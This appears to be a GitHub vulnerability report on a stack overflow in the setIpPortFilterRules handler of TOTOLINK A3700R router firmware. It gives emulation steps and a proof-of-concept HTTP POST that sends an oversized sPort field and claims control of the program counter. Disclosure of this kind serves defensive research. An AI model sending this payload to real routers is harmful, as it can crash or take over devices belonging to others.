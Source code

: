 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104001414887](image/image-20240104001414887.png)

## Vulnerability details

![image-20240104003136849](image/image-20240104003136849.png)

In setIpPortFilterRules function

`v8 v9` is formatted into `V16` through sprintf function, and` v8 v9` is the value of `sPort ePort` we enter. The size of the format string is not limited, resulting in stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```bash
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.48.128:1234
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.48.128:1234
Connection: close
Referer: http://192.168.48.128:1234/login.html
Cookie: SESSION_ID=2:1700540000:2

{
"topicurl":"setIpPortFilterRules",
"addEffect":"1",
"sPort":"X"*0x1000
}
```

![image-20240104003912667](image/image-20240104003912667.png)

The above figure shows the POC attack effect

![image-20240104003415337](image/image-20240104003415337.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104003435194](image/image-20240104003435194.png)
